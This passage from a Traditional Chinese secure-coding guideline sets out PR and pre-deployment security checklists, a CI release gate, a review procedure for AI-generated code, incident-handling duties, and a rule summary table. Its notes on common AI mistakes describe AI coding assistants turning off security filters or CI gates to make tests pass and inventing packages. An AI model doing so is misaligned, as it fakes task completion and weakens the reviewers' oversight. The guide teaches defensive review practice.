- [ ] 新增的外部輸入都有伺服器端驗證，字串都有長度上限（SCG-GEN-002、SCG-GEN-009）
- [ ] 新增的查詢都使用參數綁定，排序與欄位以允許清單對應（SCG-SQL-001、SCG-SQL-003）
- [ ] 以 ID 存取資料時有檢查擁有者或租戶（SCG-ACL-002）
- [ ] 沒有把秘密、個資、權杖寫入日誌（SCG-LOG-002）
- [ ] 沒有新增 innerHTML／v-html／dangerouslySetInnerHTML／bypassSecurityTrust*（或已清理並說明）
- [ ] 新增的相依套件已確認名稱、維護狀態與授權（SCG-SUP-004）
```

### 20.2 Pull Request 檢查項目

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-REV-001` | 必須 | 修改安全敏感程式碼（`SCG-SDL-004` 列出的範圍）的 Pull Request，審查者必須依下列檢查清單逐項確認，並在審查意見中記錄已確認；CI 的 SAST、SCA、秘密掃描與授權測試必須全部通過 | 🤖 分支保護（必要檢查）；👁 審查紀錄 |

```markdown
<!-- ✅ SCG-REV-001：安全審查檢查清單（審查者填寫） -->
### 輸入與輸出
- [ ] 外部輸入在伺服器端以允許清單驗證；DTO 欄位都有長度與範圍限制（2.2）
- [ ] 輸出依情境編碼；沒有新的 HTML 字串組合（2.3、第 9 章）
- [ ] SQL、命令、LDAP、運算式都使用參數化介面（第 6、10、11 章）

### 身分與授權
- [ ] 新端點有明確的權限設定；物件層級授權寫在查詢中（第 4 章）
- [ ] 有「未登入、缺少權限、他人資料」三種授權測試（SCG-ACL-008）
- [ ] 沒有關閉 CSRF、沒有放寬 CORS（SCG-AUTH-010、SCG-JAVA-008）

### 資料與秘密
- [ ] 沒有寫死的秘密；設定檔只引用秘密名稱（SCG-CRY-008）
- [ ] 加密使用 AES-GCM 與隨機 IV；亂數使用 CSPRNG（第 5 章）
- [ ] 日誌不含密碼、權杖、完整身分證字號與卡號（SCG-LOG-002）

### 錯誤與資源
- [ ] 安全檢查失敗時拒絕（fail closed）；沒有吞掉例外（SCG-GEN-008、SCG-LOG-005）
- [ ] 錯誤回應不含堆疊追蹤與內部資訊（SCG-API-002）
- [ ] 分頁、批次、上傳、外部呼叫都有上限與逾時（SCG-GEN-009）

### 供應鏈與設定
- [ ] 新增的相依套件經過審查；鎖定檔的變更與宣告一致（第 15 章）
- [ ] 工作流程的 Action 以 SHA 固定、權限最小（SCG-SUP-006）
- [ ] 新增的工具抑制註解都附有例外編號（0.6）
```

#### 🔍 20.2 審查與驗證

- **自動檢查：** 分支保護規則把 SAST、SCA、秘密掃描、單元與授權測試設為必要檢查；CODEOWNERS 讓安全敏感路徑必須由資安審查者核准。
- **人工審查問題：** 審查者是否真的逐項檢查，還是只勾選？抽查時可要求審查者說明其中兩項是如何確認的。
- **AI 常見錯誤：** AI 產生的 PR 說明常宣稱「已處理所有安全問題」，審查者不得以此取代檢查清單。

### 20.3 部署前檢查項目

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-REV-002` | 必須 | 發布到正式環境之前，發布管線必須確認：SAST、SCA、映像掃描沒有未核准的高風險發現；所有例外都在有效期限內；SBOM 已產生並保存；正式環境設定經過審查；處理個資或金流的系統在重大變更後完成 DAST 掃描。任何一項未通過即停止發布 | 🤖 發布管線的閘道；👁 發布核准紀錄 |

```yaml
# ✅ SCG-REV-002：發布管線的安全閘道（GitHub Actions 片段）：任何一個前置工作失敗，deploy 就不會執行
jobs:
  sast:
    uses: ./.github/workflows/sast.yml
  sca:
    uses: ./.github/workflows/sca.yml
  image-scan:
    uses: ./.github/workflows/image-scan.yml
  exceptions-valid:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
      - name: Fail on expired security exceptions
        run: |
          today=$(date +%F)
          expired=$(grep -oE '有效至 [0-9]{4}-[0-9]{2}-[0-9]{2}' SECURITY-EXCEPTIONS.md | awk -v t="$today" '$2 < t' || true)
          if [ -n "$expired" ]; then echo "過期的安全例外：$expired"; exit 1; fi
  deploy:
    needs: [sast, sca, image-scan, exceptions-valid]
    environment: production
    runs-on: ubuntu-latest
    steps:
      - run: echo "deploy"
```

（片段：只列出 `jobs`；`sast.yml` 等可重用工作流程即第 1.3 節的各項檢查。）

```markdown
<!-- 部署前檢查清單（發布負責人填寫） -->
- [ ] SAST／SCA／映像掃描：無未核准的 High／Critical（SCG-SDL-002、SCG-CFG-006）
- [ ] 安全例外清單沒有過期項目（0.6）
- [ ] SBOM 已產生並附在發布紀錄中（SCG-SUP-007）
- [ ] 正式環境設定差異已審查：Actuator、CORS、日誌層級、除錯功能（第 17 章）
- [ ] 新增的對外端點已登錄 API 清冊，舊版本已規劃下線（SCG-API-007）
- [ ] 處理個資或金流的重大變更已完成 DAST（ZAP 等）掃描
- [ ] 回復（rollback）程序已確認可行
```

#### 🔍 20.3 審查與驗證

- **自動檢查：** 發布管線的 `needs` 相依確保安全工作失敗時不會部署；以 `actionlint` 檢查工作流程；部署環境（`environment: production`）設定必要的核准者。
- **人工審查問題：** 有沒有「緊急發布」可以跳過安全閘道的路徑？若有，是否有事後補做與核准紀錄？
- **AI 常見錯誤：** 以 `if: always()` 或 `continue-on-error: true` 讓部署在安全檢查失敗時仍然執行。

### 20.4 AI 產出的審查流程

AI 程式碼助理產出的程式碼常有一個特徵：**看起來完整、命名漂亮、註解齊全，但安全細節是錯的**。審查者容易因為「程式碼看起來很專業」而降低警覺。下列流程讓審查有固定的步驟，不依賴審查者當下的直覺。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-REV-003` | 必須 | 審查 AI 產生的程式碼時，審查者必須依序完成：①執行建置與所有工具（不只是看程式碼）；②確認所有引用的類別、方法、設定屬性、套件都真實存在；③對照本指引第 19 章與各節的「AI 常見錯誤」逐項檢查；④確認安全機制沒有被關閉或繞過；⑤確認有涵蓋失敗情境與攻擊輸入的測試 | 👁 審查紀錄（PR 中記錄五個步驟的結果） |

```text
✅ SCG-REV-003：AI 產出審查的實際紀錄範例（貼在 PR 審查意見中）

① 建置與工具：mvn verify 通過；Semgrep 0 個發現；SpotBugs 回報 1 個 PREDICTABLE_RANDOM（OtpService）→ 已要求修正
② 存在性檢查：AI 使用的 HttpClientSettings.withRedirects 在 Boot 4.1.1 存在（已以編譯確認）；
   新增套件 "spring-boot-starter-ratelimit" 在 Maven Central 不存在 → AI 虛構，已移除
③ AI 常見錯誤：OrderController 以 findById(id) 直接回傳 → IDOR，改為 findForCustomer（SCG-ACL-002）
④ 安全機制：AI 為了讓測試通過在 WebMvcTest 加上 addFilters = false → 已移除，改加 spring-boot-starter-security-test
⑤ 測試：補上「他人訂單回 404」與「OTP 重複使用失敗」兩個測試
結論：修正後核准
```

**提示 AI 時就把安全要求說清楚。** 審查是最後一道防線，更有效率的做法是在提示中直接引用規則編號與正確寫法，例如：

```text
✅ SCG-REV-003：產生程式碼時的提示範例
請以 Spring Boot 4.1 實作「查詢我的訂單」API，並遵守：
- 目前使用者取自 JWT 的 sub，不接受任何使用者 ID 參數（SCG-ACL-001、SCG-ACL-002）
- 查詢條件包含 customer_id，查不到時回 404（SCG-ACL-002）
- 以 JdbcClient 具名參數查詢，不得字串串接（SCG-SQL-001）
- 分頁 size 上限 100（SCG-GEN-009）
- 錯誤回應使用 ProblemDetail，不含例外訊息（SCG-API-002）
- 附上 MockMvc 測試：未登入 401、他人訂單 404、本人訂單 200（SCG-ACL-008）
```

#### 🔍 20.4 審查與驗證

- **自動檢查：** 步驟 ① 與 ② 大部分可由 CI 完成（建置失敗即代表引用了不存在的 API；`npm view`／Maven Central 查詢確認套件存在）；PR 範本中的 AI 勾選欄（`SCG-SDL-007`）讓審查者知道需要執行本流程。
- **人工審查問題：** 審查紀錄是否涵蓋全部五個步驟？步驟 ③ 是否對照了該程式碼所屬章節的「AI 常見錯誤」？
- **AI 常見錯誤：** 為了讓測試或建置通過而修改測試設定、加入抑制註解或關閉安全機制；虛構看似合理的套件與 API 名稱。

### 20.5 弱點與資安事件的開發者責任

弱點通報與資安事件的處理流程由資安單位主導（流程見 [軟體開發標準程序教學手冊]()）。本節規範開發者在其中的責任。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-REV-004` | 必須 | 修正弱點時必須：先寫出能重現的測試；找出根本原因；以相同模式搜尋程式庫中的其他位置（變體分析）；修正後加入回歸測試（`SCG-SDL-006`）；若工具沒有發現該問題，應新增工具規則（例如 Semgrep 自訂規則） | 👁 修正紀錄；🧪 回歸測試 |
| `SCG-REV-005` | 必須 | 發生或疑似發生資安事件時，開發者不得自行刪除日誌、重新部署或清除環境，必須先保全證據並依通報流程處理；不得在公開管道（公開的 Issue、社群、AI 對話）討論尚未修補的弱點細節 | 👁 事件處理紀錄 |

```bash
# ✅ SCG-REV-004：變體分析。修正一處 MyBatis ${} 注入後，以相同規則掃描整個程式庫，找出所有同類問題
semgrep scan --config .semgrep/scg-rules.yml --include '*Mapper.xml' --json | jq -r '.results[] | "\(.path):\(.start.line)"'
```

```bash
# ✅ SCG-REV-005：處理前先保全證據（在資安單位指示下執行；輸出存放到受控的位置並計算雜湊）
ts=$(date -u +%Y%m%dT%H%M%SZ)
kubectl -n ordering logs deploy/order-service --all-containers --timestamps > "evidence/order-service-$ts.log"
kubectl -n ordering get pods,deploy,rs,cm -o yaml > "evidence/ordering-state-$ts.yaml"
sha256sum evidence/*-"$ts".* > "evidence/SHA256SUMS-$ts"
```

#### 🔍 20.5 審查與驗證

- **自動檢查：** 每個弱點修正的 PR 都應包含新的測試；資安單位可抽查「弱點編號 → 修正 PR → 回歸測試 → 新工具規則」的追溯關係。
- **人工審查問題：**
  1. 這個弱點的根本原因是什麼？是缺少一個檢查，還是缺少一種**機制**（例如沒有統一的授權元件）？
  2. 同樣的寫法在程式庫中還有幾處？
  3. 工具為什麼沒有發現？需要新增什麼規則？
- **AI 常見錯誤：** 只修正被回報的那一行，沒有找出同類問題；以「加上輸入過濾」修正注入（而不是改用參數化）；把弱點細節貼到公開的 AI 服務請它協助修正（`SCG-SDL-009`）。

## 附錄 A 規則總表

本附錄由各章的規則表自動彙整，共 **162** 條規則，可作為程式碼審查與 AI 產出審查的檢核清單。

### A.1 依領域統計

| 前綴 | 領域 | 章 | 規則數 | 必須 | 應該 | 可以 | 不應該 |
| --- | --- | --- | --- | --- | --- | --- | --- |
| `SCG-SDL` | 安全開發生命週期 | 1 | 9 | 7 | 2 | 0 | 0 |
| `SCG-GEN` | 通用安全原則 | 2 | 13 | 10 | 2 | 0 | 1 |
| `SCG-AUTH` | 身分驗證與工作階段 | 3 | 16 | 14 | 1 | 0 | 1 |
| `SCG-ACL` | 存取控制 | 4 | 8 | 6 | 1 | 0 | 1 |
| `SCG-CRY` | 密碼學與秘密管理 | 5 | 10 | 8 | 1 | 0 | 1 |
| `SCG-JAVA` | Java／Spring Boot | 6 | 10 | 10 | 0 | 0 | 0 |
| `SCG-PY` | Python | 7 | 9 | 9 | 0 | 0 | 0 |
| `SCG-JS` | JavaScript／TypeScript／Node.js | 8 | 9 | 7 | 1 | 1 | 0 |
| `SCG-FE` | 前端框架與瀏覽器 | 9 | 16 | 15 | 1 | 0 | 0 |
| `SCG-SQL` | SQL 與資料存取 | 10 | 6 | 4 | 2 | 0 | 0 |
| `SCG-SP` | 預存程序 | 11 | 6 | 6 | 0 | 0 | 0 |
| `SCG-API` | API 安全 | 12 | 10 | 9 | 1 | 0 | 0 |
| `SCG-IO` | 檔案、序列化與外部資源 | 13 | 6 | 5 | 1 | 0 | 0 |
| `SCG-LOG` | 安全記錄與錯誤處理 | 14 | 7 | 6 | 1 | 0 | 0 |
| `SCG-SUP` | 相依套件與供應鏈 | 15 | 8 | 6 | 2 | 0 | 0 |
| `SCG-AI` | AI／LLM 應用與 AI 產生的程式碼 | 16 | 8 | 7 | 1 | 0 | 0 |
| `SCG-CFG` | 設定與部署 | 17 | 6 | 6 | 0 | 0 | 0 |
| `SCG-REV` | 審查流程 | 20 | 5 | 5 | 0 | 0 | 0 |
| **合計** | | | **162** | **140** | **17** | **1** | **4** |

### A.2 驗證方式與範例覆蓋

依各規則表的「驗證方式」欄統計（圖示定義見 [0.3](#03-規範等級與規則格式)）。一條規則可同時有多種驗證方式；「僅人工」表示沒有工具或測試可以替代人工判斷，審查時請特別依照各節「🔍 審查與驗證」的問題確認。

| 前綴 | 規則數 | 🤖 工具檢查 | 🧪 測試或演練 | 👁 僅人工 | 有範例 |
| --- | --- | --- | --- | --- | --- |
| `SCG-SDL` | 9 | 6 | 1 | 2 | 9 |
| `SCG-GEN` | 13 | 5 | 12 | 0 | 13 |
| `SCG-AUTH` | 16 | 5 | 14 | 1 | 16 |
| `SCG-ACL` | 8 | 4 | 6 | 2 | 8 |
| `SCG-CRY` | 10 | 6 | 2 | 3 | 10 |
| `SCG-JAVA` | 10 | 10 | 8 | 0 | 10 |
| `SCG-PY` | 9 | 9 | 1 | 0 | 9 |
| `SCG-JS` | 9 | 7 | 6 | 0 | 9 |
| `SCG-FE` | 16 | 14 | 5 | 0 | 16 |
| `SCG-SQL` | 6 | 4 | 4 | 0 | 6 |
| `SCG-SP` | 6 | 5 | 3 | 0 | 6 |
| `SCG-API` | 10 | 4 | 10 | 0 | 10 |
| `SCG-IO` | 6 | 2 | 5 | 1 | 6 |
| `SCG-LOG` | 7 | 4 | 5 | 1 | 7 |
| `SCG-SUP` | 8 | 8 | 0 | 0 | 8 |
| `SCG-AI` | 8 | 2 | 5 | 2 | 8 |
| `SCG-CFG` | 6 | 5 | 2 | 0 | 6 |
| `SCG-REV` | 5 | 2 | 1 | 2 | 5 |
| **合計** | **162** | **102** | **90** | **14** | **162** |

> 「有範例」指規則編號出現在至少一個範例（程式碼區塊）的 ✅／❌ 標記中，由建置腳本自動檢查。

### A.3 規則清單

| 編號 | 等級 | 規則 | 所在章節 |
| --- | --- | --- | --- |
| `SCG-SDL-001` | 必須 | 每個系統必須依處理資料的敏感度選定 ASVS 等級（L1／L2／L3），並記錄在程式庫的 `SECURITY.md`；處理個人資料的系統至少為 L2 | [1.3](#13-依風險選定-asvs-等級) |
| `SCG-SDL-002` | 必須 | CI 必須在每個 Pull Request 執行靜態分析（SAST）、相依套件弱點掃描（SCA）與秘密掃描；高風險以上的發現必須阻擋合併 | [1.3](#13-依風險選定-asvs-等級) |
| `SCG-SDL-003` | 必須 | 開發者的本機必須安裝 pre-commit 秘密掃描，避免密碼、金鑰、權杖進入 Git 歷史 | [1.3](#13-依風險選定-asvs-等級) |
| `SCG-SDL-004` | 必須 | 修改身分驗證、授權、加密、輸入處理、檔案處理、反序列化等安全敏感程式碼時，必須由第二人審查，並以 CODEOWNERS 指定具備資安能力的審查者 | [1.3](#13-依風險選定-asvs-等級) |
| `SCG-SDL-005` | 必須 | 已知弱點必須依嚴重度在時限內修補：Critical 15 天、High 30 天、Medium 90 天（或依主管機關與合約更嚴格的要求）；無法修補時走 0.6 例外流程 | [1.3](#13-依風險選定-asvs-等級) |
| `SCG-SDL-006` | 應該 | 每個安全缺陷的修正都應附上回歸測試，測試在修正前會失敗、修正後通過 | [1.3](#13-依風險選定-asvs-等級) |
| `SCG-SDL-008` | 應該 | 程式庫應提供 `SECURITY.md`，說明支援的版本與弱點通報管道，並承諾回應時限 | [1.3](#13-依風險選定-asvs-等級) |
| `SCG-SDL-007` | 必須 | AI 產生或大幅修改的程式碼必須與人寫的程式碼適用相同的審查與工具檢查；Pull Request 必須標示 AI 協助的範圍，審查者必須依第 20.4 節的流程審查 | [1.4](#14-ai-輔助開發的責任) |
| `SCG-SDL-009` | 必須 | 不得將機密資料（客戶個資、金鑰、內部系統的連線資訊、未公開的弱點細節）貼入未經公司核准的 AI 服務 | [1.4](#14-ai-輔助開發的責任) |
| `SCG-GEN-001` | 必須 | 應用程式連線資料庫、訊息佇列、雲端服務所用的帳號，只能擁有應用程式實際需要的權限；不得使用資料庫擁有者、`sa`、`SYSTEM`、`postgres` 或雲端管理員帳號 | [2.1](#21-最小權限與預設拒絕) |
| `SCG-GEN-010` | 必須 | 存取控制必須預設拒絕：路由設定在列出所有允許的路徑後，以 `denyAll()` 或 `authenticated()` 收尾；不得以 `anyRequest().permitAll()` 結尾 | [2.1](#21-最小權限與預設拒絕) |
| `SCG-GEN-002` | 必須 | 所有來自信任邊界外的輸入，都必須在伺服器端以**允許清單**驗證型別、長度、格式、範圍或列舉值，驗證失敗時拒絕整個請求，而不是嘗試「修正」輸入 | [2.2](#22-輸入驗證) |
| `SCG-GEN-003` | 必須 | 前端（瀏覽器、App）的驗證只用於改善使用體驗，伺服器端必須重新驗證所有輸入；不得依賴隱藏欄位、停用的按鈕或前端計算的值做安全判斷 | [2.2](#22-輸入驗證) |
| `SCG-GEN-004` | 應該 | 驗證前應先將輸入正規化：Unicode 以 NFKC 正規化、路徑以 `normalize()` 解析、URL 解碼只做一次；驗證與使用必須針對同一個正規化後的值 | [2.2](#22-輸入驗證) |
| `SCG-GEN-005` | 不應該 | 不應該以黑名單過濾或移除「危險字元」（例如移除 `<script>`、`'`、`--`）作為主要防禦；黑名單總有遺漏，且會破壞合法資料 | [2.2](#22-輸入驗證) |
| `SCG-GEN-006` | 必須 | 輸出到解譯器（HTML、JavaScript、URL、CSS、SQL、命令列、LDAP、XPath）的資料，必須依輸出情境使用框架的自動編碼、經過驗證的編碼函式庫或參數化介面；不得自行撰寫編碼函式，也不得在輸入時預先編碼後儲存 | [2.3](#23-輸出編碼) |
| `SCG-GEN-007` | 必須 | 匯出 CSV 或試算表時，以 `=`、`+`、`-`、`@`、Tab、CR 開頭的儲存格必須加上前置單引號（`'`），並以雙引號包住含逗號、引號、換行的儲存格，防止公式注入（CSV injection） | [2.3](#23-輸出編碼) |
| `SCG-GEN-008` | 必須 | 安全檢查（驗證、授權、簽章、憑證、風險評估）發生例外、逾時或回傳非預期結果時，必須拒絕操作；`catch` 區塊不得回傳「允許」或略過檢查 | [2.4](#24-失敗安全與資源上限) |
| `SCG-GEN-009` | 必須 | 所有由外部控制的資源用量都必須有上限：請求本文大小、上傳檔案大小與數量、分頁筆數、集合長度、字串長度、JSON 巢狀深度、批次處理筆數 | [2.4](#24-失敗安全與資源上限) |
| `SCG-GEN-012` | 必須 | 多步驟流程必須在伺服器端以狀態機驗證步驟順序；每個步驟都必須檢查前一個步驟已完成，不得只靠前端導頁控制流程 | [2.5](#25-業務邏輯與並行安全) |
| `SCG-GEN-013` | 應該 | 高價值或易被濫用的操作（登入、註冊、寄送驗證碼、兌換優惠、查詢個資）應有防自動化措施：依使用者與來源的速率限制、單次使用的權杖、必要時加上人機驗證 | [2.5](#25-業務邏輯與並行安全) |
| `SCG-GEN-014` | 必須 | 「先檢查、後更新」的操作（扣款、扣庫存、兌換、狀態轉換）必須以單一原子操作完成：條件式 `UPDATE ... WHERE` 並檢查影響筆數、樂觀鎖版本欄位，或資料庫的唯一約束；不得以先 `SELECT` 再 `UPDATE` 的兩個步驟實作 | [2.5](#25-業務邏輯與並行安全) |
| `SCG-AUTH-001` | 必須 | 密碼必須以 Argon2id、scrypt、bcrypt 或 PBKDF2（依 OWASP 建議的參數）雜湊儲存，並透過 `DelegatingPasswordEncoder` 等可辨識演算法的格式儲存，以便日後升級；不得使用 MD5、SHA 系列一般雜湊、可逆加密或明文 | [3.1](#31-密碼儲存與密碼政策) |
| `SCG-AUTH-002` | 必須 | 密碼政策必須符合 NIST SP 800-63B-4：單一因子時最短 15 碼（多因子時 8 碼）、至少允許 64 碼、不設字元組成規則、不強制定期更換，並比對已外洩密碼清單 | [3.1](#31-密碼儲存與密碼政策) |
| `SCG-AUTH-003` | 必須 | 登入、註冊、忘記密碼的回應不得透露帳號是否存在：錯誤訊息一致（例如「帳號或密碼錯誤」），且帳號不存在時仍執行一次密碼雜湊比對，避免以回應時間推測 | [3.1](#31-密碼儲存與密碼政策) |
| `SCG-AUTH-004` | 必須 | 必須防止暴力破解與撞庫：依帳號與來源 IP 限制連續失敗次數並逐步延遲；不得以「永久鎖定帳號」作為唯一手段（攻擊者可藉此鎖住所有帳號） | [3.1](#31-密碼儲存與密碼政策) |
| `SCG-AUTH-005` | 必須 | 管理功能、大額交易與個資匯出等敏感操作必須要求多因子驗證；ASVS L3 系統的所有使用者都必須使用多因子；應優先採用通行金鑰（WebAuthn）等抗釣魚的因子 | [3.2](#32-多因子驗證與通行金鑰) |
| `SCG-AUTH-006` | 必須 | 一次性驗證碼（OTP、Email 連結、簡訊碼）必須以安全亂數產生、只能使用一次、有效期間不超過 10 分鐘、限制嘗試次數，並以固定時間比較 | [3.2](#32-多因子驗證與通行金鑰) |
| `SCG-AUTH-007` | 必須 | 登入成功、權限提升（例如完成多因子）時必須更換 Session ID；登出時必須在伺服器端使 Session 失效並清除 Cookie | [3.3](#33-工作階段session管理) |
| `SCG-AUTH-008` | 必須 | Session Cookie 必須設定 `Secure`、`HttpOnly`、`SameSite`；應使用 `__Host-` 前綴且不設定 `Domain` | [3.3](#33-工作階段session管理) |
| `SCG-AUTH-009` | 必須 | Session 必須有閒置逾時與絕對逾時：一般系統閒置 30 分鐘、絕對 8–12 小時；高風險系統（ASVS L3）閒置 15 分鐘 | [3.3](#33-工作階段session管理) |
| `SCG-AUTH-010` | 必須 | 以 Cookie 驗證身分的系統必須啟用 CSRF 防護（同步權杖或雙重提交 Cookie），不得為了方便而關閉；只有完全以 `Authorization` 標頭傳遞權杖、且不使用 Cookie 驗證的 API 可以不啟用 | [3.3](#33-工作階段session管理) |
| `SCG-AUTH-011` | 必須 | 驗證 JWT 必須使用成熟的函式庫，並檢查簽章（限定演算法允許清單）、`iss`、`aud`、`exp`、`nbf`；不得自行解析 Base64 後直接信任內容，不得接受 `alg: none` | [3.4](#34-權杖jwt-與-oauth-20) |
| `SCG-AUTH-012` | 應該 | 瀏覽器端應用程式應以 BFF 模式處理 OAuth，權杖保存在伺服器端；不應將 Access Token 或 Refresh Token 存入 `localStorage`、`sessionStorage` 或非 `HttpOnly` 的 Cookie | [3.4](#34-權杖jwt-與-oauth-20) |
| `SCG-AUTH-013` | 必須 | OAuth 2.0／OIDC 用戶端必須使用授權碼流程搭配 PKCE（`S256`），驗證 `state` 與 `nonce`，並在 IdP 註冊完全相符的重新導向 URI；不得使用隱含流程（implicit）或密碼流程（password grant） | [3.4](#34-權杖jwt-與-oauth-20) |
| `SCG-AUTH-014` | 必須 | Access Token 的有效期間應為 5–15 分鐘；Refresh Token 必須在每次使用後輪替（rotation）並偵測重複使用；JWT 內容不得放入個人資料或機密，因為它只是 Base64 編碼而非加密 | [3.4](#34-權杖jwt-與-oauth-20) |
| `SCG-AUTH-015` | 必須 | 重設密碼權杖必須以安全亂數產生（至少 128 位元）、只儲存其雜湊、只能使用一次、有效期間不超過 30 分鐘；重設成功後必須使該帳號所有既有 Session 與 Refresh Token 失效，並通知使用者 | [3.5](#35-帳號復原與重設密碼) |
| `SCG-AUTH-016` | 不應該 | 不應該以安全問題（母親姓名、第一隻寵物）作為帳號復原或驗證的手段 | [3.5](#35-帳號復原與重設密碼) |
| `SCG-ACL-001` | 必須 | 每個以識別碼（路徑參數、查詢參數、請求本文中的 ID）存取資料的操作，都必須檢查目前使用者對該筆資料的權限；不得假設「使用者只會看到自己的 ID」 | [4.1](#41-物件層級授權) |
| `SCG-ACL-002` | 必須 | 物件層級的授權條件應寫進查詢本身（`WHERE id = :id AND owner_id = :currentUser`），而不是先查出資料再比對；查不到或無權存取時一律回 404，不透露資料是否存在 | [4.1](#41-物件層級授權) |
| `SCG-ACL-003` | 不應該 | 不應該以「不可預測的 ID」（UUID、雜湊值）取代授權檢查；不可預測的 ID 只能降低被猜中的機率，ID 仍可能從日誌、分享連結、Referer 標頭外洩 | [4.1](#41-物件層級授權) |
| `SCG-ACL-004` | 必須 | 每個端點與服務方法都必須在伺服器端檢查功能權限（以 `requestMatchers` 或 `@PreAuthorize` 等宣告式機制）；隱藏前端按鈕或選單不是授權 | [4.2](#42-功能層級與屬性層級授權) |
| `SCG-ACL-005` | 必須 | 不得將請求本文直接繫結到資料庫實體（Entity）或領域物件；必須使用只包含「這個操作允許修改的欄位」的 DTO，並在回應中只輸出呼叫者有權看到的欄位 | [4.2](#42-功能層級與屬性層級授權) |
| `SCG-ACL-006` | 應該 | 權限判斷應集中在授權元件（Spring Security 的 `AuthorizationManager`、`@PreAuthorize` 引用的 Bean、政策引擎），而不是在各處以字串比對角色名稱 | [4.2](#42-功能層級與屬性層級授權) |
| `SCG-ACL-007` | 必須 | 租戶識別碼必須取自已驗證的身分（權杖中的宣告或 Session），不得取自請求參數、標頭或子網域以外未經驗證的來源；資料層必須自動套用租戶條件（Hibernate `@TenantId`、資料庫資料列層級安全 RLS 等），而不是依賴每個查詢手動加上 | [4.3](#43-多租戶隔離) |
| `SCG-ACL-008` | 必須 | 每個受保護的端點都必須有授權測試，至少涵蓋「未登入」、「缺少權限」與「存取他人資料」三種情境；新增端點時，授權測試與功能測試必須在同一個 Pull Request 中提交 | [4.4](#44-授權測試) |
| `SCG-CRY-001` | 必須 | 只能使用 5.1 表格中「建議」或「可接受」的演算法與模式；`Cipher.getInstance` 等 API 必須明確指定模式與填充（例如 `AES/GCM/NoPadding`），不得只寫 `"AES"`（Java 預設為 ECB） | [5.1](#51-演算法與模式的選擇) |
| `SCG-CRY-002` | 必須 | AES-GCM 每次加密都必須使用新的 96 位元隨機 IV（或保證不重複的計數器），IV 與密文一起儲存；同一把金鑰重複使用 IV 會讓攻擊者還原明文並偽造密文。應以 AAD 綁定資料的情境（例如資料表與欄位名稱、記錄 ID） | [5.1](#51-演算法與模式的選擇) |
| `SCG-CRY-003` | 不應該 | 不應該自行實作加密演算法、協定或「混淆」機制（例如 XOR、Base64、自創的置換表）；應使用 JCA、Google Tink、libsodium、Web Crypto API 等成熟的實作 | [5.1](#51-演算法與模式的選擇) |
| `SCG-CRY-004` | 必須 | 所有與安全相關的隨機值（權杖、驗證碼、IV、金鑰、Session ID、重設連結、檔名）必須使用 CSPRNG；權杖至少 128 位元的隨機性 | [5.2](#52-安全亂數) |
| `SCG-CRY-005` | 必須 | 加密金鑰必須由 KMS、HSM 或秘密管理系統產生與保存，應用程式只在執行時取得（或以信封加密只取得資料金鑰）；金鑰必須有版本並可輪替，密文必須記錄所用的金鑰版本 | [5.3](#53-金鑰與秘密管理) |
| `SCG-CRY-008` | 必須 | 秘密不得出現在原始碼、設定檔、測試資料、容器映像、前端程式、日誌或錯誤訊息中；必須在執行時由秘密管理系統或平台注入 | [5.3](#53-金鑰與秘密管理) |
| `SCG-CRY-009` | 必須 | 秘密一旦外洩（被提交到 Git、出現在日誌或工單中），必須立即撤銷並更換，再清理歷史紀錄；不得只刪除檔案或改寫 Git 歷史 | [5.3](#53-金鑰與秘密管理) |
| `SCG-CRY-006` | 必須 | 不得關閉或繞過 TLS 憑證與主機名稱驗證（自訂接受所有憑證的 `TrustManager`、`HostnameVerifier` 回傳 `true`、`verify=False`、`rejectUnauthorized: false`、`NODE_TLS_REJECT_UNAUTHORIZED=0`、`curl -k`）；使用內部 CA 時，應將 CA 憑證加入信任庫 | [5.4](#54-傳輸層安全tls) |
| `SCG-CRY-007` | 必須 | 應用程式對外與對內的連線（HTTP API、資料庫、訊息佇列、快取、LDAP、SMTP）都必須使用 TLS 1.2 以上（建議 1.3），並驗證伺服器憑證；資料庫連線必須設定為驗證憑證的模式（例如 PostgreSQL `sslmode=verify-full`、SQL Server `encrypt=strict`） | [5.4](#54-傳輸層安全tls) |
| `SCG-CRY-010` | 應該 | 程式碼中的密碼學用法應集中在少數元件，演算法、金鑰長度與金鑰版本應由設定決定並記錄在密文或簽章中（密碼敏捷性）；專案應維護密碼學清冊（使用了哪些演算法、在哪裡、保護什麼資料、資料需要保密多久），作為後量子遷移的依據 | [5.5](#55-密碼敏捷性與後量子遷移) |
| `SCG-JAVA-001` | 必須 | 執行外部程式必須使用 `ProcessBuilder` 並以 `List<String>` 傳入程式與參數，不得透過 shell（`sh -c`、`cmd /c`）或以字串串接命令；使用者輸入只能作為參數，並以允許清單驗證，必要時以 `--` 結束選項解析 | [6.1](#61-命令運算式與-ldap-注入) |
| `SCG-JAVA-002` | 必須 | 不得以外部輸入建構或求值 SpEL、OGNL、MVEL、JEXL、Groovy、JavaScript 引擎的運算式，也不得把外部輸入當作樣板（Thymeleaf、FreeMarker、Velocity）的樣板內容；需要動態規則時使用固定的運算式或資料驅動的規則表 | [6.1](#61-命令運算式與-ldap-注入) |
| `SCG-JAVA-003` | 必須 | LDAP 查詢必須以 Spring LDAP 的 `LdapQueryBuilder` 參數化，或以 `LdapEncoder.filterEncode` 編碼使用者輸入；不得以字串串接 LDAP 過濾條件 | [6.1](#61-命令運算式與-ldap-注入) |
| `SCG-JAVA-004` | 必須 | 不得以 Java 原生序列化（`ObjectInputStream.readObject`、`XMLDecoder`、XStream 未設允許清單）處理不可信的資料；應改用 JSON 等資料格式。無法避免時，必須以 `ObjectInputFilter` 設定類別允許清單、深度與大小上限 | [6.2](#62-不安全的反序列化) |
| `SCG-JAVA-005` | 必須 | Jackson 不得啟用預設型別（`activateDefaultTyping`、`enableDefaultTyping`）或在不可信資料的類別使用 `@JsonTypeInfo(use = Id.CLASS / MINIMAL_CLASS)`；多型 JSON 必須以 `Id.NAME` 搭配 `@JsonSubTypes` 或 sealed 型別列出允許的子型別。SnakeYAML 必須使用 `SafeConstructor` 或明確的 `LoaderOptions` 標籤限制 | [6.2](#62-不安全的反序列化) |
